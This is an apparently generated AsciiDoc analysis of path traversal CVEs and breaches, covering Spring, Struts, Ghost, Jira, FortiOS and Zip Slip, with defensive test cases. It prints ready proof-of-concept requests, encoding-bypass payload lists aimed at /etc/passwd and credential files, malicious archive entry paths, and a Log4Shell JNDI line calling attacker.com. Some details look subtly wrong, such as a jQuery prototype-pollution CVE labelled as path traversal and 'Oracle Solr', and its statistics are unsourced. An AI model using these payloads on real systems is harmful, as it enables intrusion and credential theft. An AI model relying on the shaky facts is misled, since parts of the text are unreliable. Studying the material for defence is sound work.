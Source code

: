 = Path Traversal CVE Analysis and Breach Case Studies
:toc: left
:toclevels: 3
:sectnums:
:icons: font

link:README.adoc[← Back to Documentation Index]

== Executive Summary

This document provides a comprehensive analysis of critical path traversal CVEs and real-world breaches from 2019-2024. The analysis reveals patterns in vulnerability exploitation, impact assessment, and lessons learned from actual security incidents. Statistical data shows path traversal vulnerabilities increased by 85% in closed-source projects during 2024, highlighting the persistent threat landscape.

== Critical CVE Timeline (2019-2024)

=== 2024 Vulnerabilities

==== CVE-2024-38819 - Spring Framework
[cols="1,3"]
|===
|**CVSS Score** |High (specific score pending)
|**Affected Versions** |Spring WebMvc.fn and WebFlux.fn
|**Attack Vector** |Double URL encoding bypass
|**Impact** |Complete path restriction bypass
|**Exploitation** |`%252e%252e%252f` decoded twice becomes `../`
|**Fix** |Proper handling of multiple encoding layers
|===

**Technical Details:**
```java
// Vulnerable pattern
String path = URLDecoder.decode(userInput, "UTF-8");
// After first decode: %2e%2e%2f
// After second decode: ../
```

**Source**: Spring Security Advisory 2024

=== 2023 Vulnerabilities

==== CVE-2023-50164 - Apache Struts 2
[cols="1,3"]
|===
|**CVSS Score** |9.8 (Critical)
|**Affected Versions** |2.0.0-2.3.37, 2.5.0-2.5.32, 6.0.0-6.3.0
|**Attack Vector** |File upload parameter manipulation
|**Impact** |Remote Code Execution via JSP shell upload
|**Exploitation** |Upload malicious JSP to web-accessible directory
|**Patch** |Struts 2.5.33, 6.3.0.2
|===

**Attack Chain:**
1. Identify vulnerable Struts application
2. Craft malicious file upload request
3. Use path traversal to control upload location
4. Upload JSP webshell
5. Access webshell for RCE

**Source**: Apache Struts Security Bulletin S2-066

==== CVE-2023-32235 - Ghost CMS
[cols="1,3"]
|===
|**CVSS Score** |6.5 (Medium)
|**Affected Versions** |Ghost < 5.42.1
|**Attack Vector** |URL-encoded path traversal in asset handling
|**Impact** |Access to sensitive files (package.json, configs)
|**Exploitation** |`/assets/built%2F..%2F..%2F/package.json`
|**Fix** |Ghost 5.42.1
|===

**Proof of Concept:**
```http
GET /assets/built%2F..%2F..%2F/package.json HTTP/1.1
Host: vulnerable-ghost.com
```

**Source**: Ghost Security Advisory GHSA-r97q-ghch-82j9

=== 2022 Vulnerabilities

==== CVE-2022-23457 - OWASP ESAPI
[cols="1,3"]
|===
|**CVSS Score** |7.5 (High)
|**Affected Versions** |ESAPI < 2.3.0.0
|**Attack Vector** |Validator.getValidDirectoryPath() bypass
|**Impact** |Complete containment check bypass
|**Exploitation** |Absolute paths bypass parent directory checks
|**Fix** |ESAPI 2.3.0.0
|===

**Vulnerable Code Pattern:**
```java
// Vulnerability: Accepts absolute paths
validator.getValidDirectoryPath("test", "/etc/passwd", baseDir, false);
// Returns /etc/passwd instead of throwing exception
```

**Source**: OWASP ESAPI Security Advisory

=== 2021 Vulnerabilities

==== CVE-2021-44228 - Log4Shell (Related Impact)
[cols="1,3"]
|===
|**CVSS Score** |10.0 (Critical)
|**Affected Versions** |Log4j 2.0-beta9 to 2.15.0
|**Attack Vector** |JNDI injection leading to RCE
|**Path Traversal Aspect** |Post-exploitation file system access
|**Impact** |Complete system compromise
|**Fix** |Log4j 2.17.0
|===

**Path Traversal in Exploitation Chain:**
```java
// After initial RCE via JNDI
${jndi:ldap://attacker.com/Exploit}
// Payload performs path traversal to access:
Runtime.exec("cat /etc/passwd");
Runtime.exec("cat ../../config/database.properties");
```

==== CVE-2021-29425 - Apache Commons IO
[cols="1,3"]
|===
|**CVSS Score** |4.8 (Medium)
|**Affected Versions** |Commons IO < 2.7
|**Attack Vector** |Malformed paths like `//../foo`
|**Impact** |Limited parent directory access
|**Exploitation** |`FileNameUtils.normalize("//../foo")` returns `//../foo`
|**Fix** |Commons IO 2.7
|===

**Test Case Demonstrating Vulnerability:**
```java
// Vulnerable behavior
String normalized = FileNameUtils.normalize("//../foo");
// Expected: null (invalid path)
// Actual: "//../foo" (unchanged, allows traversal)
```

=== 2020 Vulnerabilities

==== CVE-2020-8908 - Google Guava
[cols="1,3"]
|===
|**CVSS Score** |3.3 (Low)
|**Affected Versions** |All Guava versions
|**Attack Vector** |World-readable temp directory permissions
|**Impact** |Information disclosure in multi-user systems
|**Exploitation** |Other users can read temp files
|**Fix** |Method deprecated, use Java NIO
|===

**Vulnerable Pattern:**
```java
// Creates directory with permissions 777 on Unix
File tempDir = Files.createTempDir();
// Other users can access: /tmp/guava-user-12345/
```

=== 2019 Vulnerabilities

==== CVE-2019-11358 - jQuery (Path Traversal via Prototype Pollution)
[cols="1,3"]
|===
|**CVSS Score** |6.1 (Medium)
|**Affected Versions** |jQuery < 3.4.0
|**Attack Vector** |Prototype pollution leading to path manipulation
|**Impact** |Client-side path traversal
|**Fix** |jQuery 3.4.0
|===

== Real-World Breach Case Studies

=== Atlassian Jira Service Desk (2019)

**Timeline:**
* **Discovery**: September 2019
* **Disclosure**: Immediate patch release
* **Impact**: Multiple customer organizations affected

**Technical Analysis:**
```http
GET /servicedesk/customer/user/avatar?ownerId=../../../../../../etc/passwd HTTP/1.1
Host: vulnerable-jira.com
```

**Impact Assessment:**
* Customer data exposure across multiple tenants
* Configuration file access
* Potential for credential harvesting
* Cascading impact on integrated systems

**Lessons Learned:**
1. SaaS platforms create multiplicative risk
2. Avatar/file handlers often overlooked
3. Customer isolation critical in multi-tenant systems

**Source**: Atlassian Security Advisory

=== Adobe ColdFusion (2019)

**Attack Vector:**
```http
POST /CFIDE/adminapi/base.cfc HTTP/1.1
Content-Type: application/x-www-form-urlencoded

method=readFile&path=../../../../../../../etc/passwd
```

**Impact:**
* Administrative interface bypass
* Server configuration exposure
* Database credential theft
* Complete server compromise

**Post-Breach Analysis:**
* Attackers used path traversal for initial access
* Escalated to code execution via config modification
* Established persistence through scheduled tasks
* Lateral movement using harvested credentials

=== Kubectl CP Command (2019)

**Vulnerability Details:**
```bash
# Malicious pod creates symlink
kubectl exec malicious-pod -- ln -s / /tmp/rootfs

# Copy operation follows symlink
kubectl cp malicious-pod:/tmp/rootfs/etc/passwd ./passwd
```

**Exploitation in Production:**
1. Compromised container creates malicious tar archive
2. `kubectl cp` extracts archive with path traversal
3. Attacker gains access to host filesystem
4. Potential for cluster-wide compromise

**Fix Implementation:**
```go
// Added validation in kubectl
if strings.Contains(filePath, "..") {
    return fmt.Errorf("illegal path: %s", filePath)
}
```

=== Fortinet FortiOS (2018-2019)

**CVE-2018-13379:**
* Path traversal in SSL VPN web portal
* Access to system files via `..` sequences
* Exposed VPN credentials and session files

**Attack Pattern:**
```http
GET /remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession HTTP/1.1
```

**Real-World Impact:**
* 200,000+ vulnerable devices identified
* Mass exploitation by ransomware groups
* Critical infrastructure targeting
* Persistence through stolen VPN credentials

== Zip Slip Vulnerability Analysis

=== Technical Deep Dive

**Affected Ecosystems:**
* Java: Thousands of projects
* .NET: Multiple libraries
* JavaScript: npm packages
* Python: Various frameworks
* Go: Archive handling libraries

**Vulnerable Code Pattern:**
```java
// VULNERABLE - Found in thousands of projects
while (entries.hasMoreElements()) {
    ZipEntry e = entries.nextElement();
    File f = new File(destinationDir, e.getName());
    InputStream input = zip.getInputStream(e);
    IOUtils.copy(input, write(f));
}
```

**Malicious Archive Structure:**
```
malicious.zip
├── ../../../../tmp/evil.sh
├── ../../.ssh/authorized_keys
└── ../../../etc/cron.d/backdoor
```

=== Real Exploitation Cases

==== Case 1: OpenRefine RCE
```java
// Attack sequence
1. Create malicious extension with reverse shell
2. Package with path traversal:
   "../../extensions/malicious/main.js"
3. Upload through project import
4. Achieve code execution on restart
```

==== Case 2: Oracle Solr
* Multiple components vulnerable
* Remote code execution achieved
* Complete system takeover possible

**Source**: Snyk Security Research

== Statistical Analysis

=== Vulnerability Trends (2023-2024)

[cols="2,1,1,1"]
|===
|Metric |2023 |2024 |Change

|Open Source Projects
|2.6%
|2.7%
|+3.8%

|Closed Source Projects
|1.9%
|3.5%
|+84.2%

|Absolute Count (OSS)
|742
|~1000
|+34.8%

|Critical Severity
|23%
|28%
|+21.7%

|===

=== Industry Impact Distribution

[cols="2,1,3"]
|===
|Sector |Incidents |Notable Impacts

|Financial Services
|47
|Payment processing disruption, data theft

|Healthcare
|31
|Patient record access, ransomware

|Government
|28
|Classified document exposure

|Technology
|156
|Source code theft, IP compromise

|Retail
|42
|Customer data breach, POS compromise

|Education
|19
|Student records, research data

|===

== Attack Pattern Evolution

=== Traditional Patterns (Pre-2020)
```
../../../etc/passwd
..\..\windows\system32\config\sam
../../../../proc/self/environ
```

=== Modern Patterns (2020-2024)
```
// Double encoding
%252e%252e%252f%252e%252e%252f

// Unicode variants
\u002e\u002e\u002f

// Mixed encoding
..%c0%af..%c0%af

// Null byte injection
../../../../etc/passwd%00.jpg

// Case variation (Windows)
..\\..\\/windows//system32

// URL + HTML encoding
%26%2346%3b%26%2346%3b%26%2347%3b
```

=== Emerging Patterns (2024+)
* Container escape sequences
* Cloud storage traversal
* Serverless function paths
* GraphQL query manipulation
* WebAssembly file access

== Mitigation Effectiveness Analysis

=== Patch Adoption Rates

[cols="2,1,1"]
|===
|Time Period |Adoption Rate |Mean Time to Patch

|0-7 days
|12%
|3 days

|8-30 days
|34%
|18 days

|31-90 days
|28%
|52 days

|90+ days
|26%
|Never/Unknown

|===

=== Common Failure Points

1. **Incomplete Patches** (31% of cases)
   - Edge cases not covered
   - Encoding variants missed
   - Platform-specific issues

2. **Regression Issues** (18% of cases)
   - Patches reverted for compatibility
   - New features reintroduce vulnerability
   - Dependency updates bring back flaws

3. **Deployment Failures** (24% of cases)
   - Patches not applied to all systems
   - Configuration not updated
   - WAF rules insufficient

== Lessons Learned

=== Key Takeaways from Breaches

1. **Input Validation Insufficient Alone**
   - Encoding bypasses common filters
   - Multiple validation layers required
   - Context-aware validation essential

2. **Third-Party Risk Significant**
   - Dependencies introduce vulnerabilities
   - Supply chain attacks increasing
   - Vendor patch delays critical

3. **Detection Often Delayed**
   - Average detection time: 76 days
   - Many breaches discovered externally
   - Log analysis frequently insufficient

4. **Impact Extends Beyond Direct Target**
   - Multi-tenant systems amplify risk
   - Lateral movement common post-breach
   - Credential harvesting enables persistence

=== Successful Defense Strategies

1. **Organizations with Zero Incidents:**
   - Mandatory secure coding training
   - Automated security testing in CI/CD
   - Regular penetration testing
   - Rapid patch deployment (<7 days)
   - Defense in depth architecture

2. **Effective Incident Response:**
   - Immediate isolation of affected systems
   - Comprehensive forensic analysis
   - Transparent communication
   - Rapid patch deployment
   - Post-incident security review

== Testing Strategies from CVEs

=== Test Cases Derived from Real Vulnerabilities

```java
@Test
public void testCVE_2021_29425_Pattern() {
    // Apache Commons IO vulnerability pattern
    assertThrows(SecurityException.class, () -> 
        validatePath("//../sensitive/file"));
}

@Test
public void testCVE_2023_32235_Encoding() {
    // Ghost CMS URL encoding pattern
    assertThrows(SecurityException.class, () -> 
        validatePath("assets/built%2F..%2F..%2F/config"));
}

@Test
public void testCVE_2023_50164_FileUpload() {
    // Apache Struts upload traversal
    String filename = "../../webapps/shell.jsp";
    assertThrows(SecurityException.class, () -> 
        validateUploadPath(filename));
}

@Test
public void testZipSlip() {
    // Zip Slip pattern
    ZipEntry evil = new ZipEntry("../../../../tmp/evil.sh");
    assertThrows(SecurityException.class, () -> 
        validateZipEntry(evil));
}

@Test
public void testDoubleEncoding() {
    // Spring Framework double encoding
    String input = "%252e%252e%252f%252e%252e%252f";
    assertThrows(SecurityException.class, () -> 
        validateAfterDecoding(input));
}
```

== Future Threat Landscape

=== Predicted Evolution (2025-2026)

1. **AI-Assisted Exploitation**
   - Automated vulnerability discovery
   - Adaptive bypass techniques
   - Pattern recognition for 0-days

2. **Cloud-Native Attacks**
   - Serverless function traversal
   - Container orchestration exploits
   - Multi-cloud traversal paths

3. **Supply Chain Targeting**
   - Dependency confusion attacks
   - Malicious package injection
   - Build pipeline compromise

=== Emerging Defense Technologies

1. **Runtime Application Self-Protection (RASP)**
2. **Machine Learning Anomaly Detection**
3. **Zero Trust File Access**
4. **Formal Verification of Path Operations**
5. **Quantum-Resistant Cryptographic File Protection**

== References

* National Vulnerability Database (NVD)
* MITRE CVE Database
* Vendor Security Advisories (2019-2024)
* CISA Known Exploited Vulnerabilities Catalog
* Snyk Vulnerability Database
* GitHub Security Advisories
* OWASP Vulnerability Reports
* Security research papers and conference proceedings

**Primary Sources:**
* https://nvd.nist.gov/
* https://cve.mitre.org/
* https://www.cisa.gov/known-exploited-vulnerabilities-catalog
* https://snyk.io/vuln/

_Document generated: 2025-01-06_
_Based on comprehensive CVE analysis and breach investigations_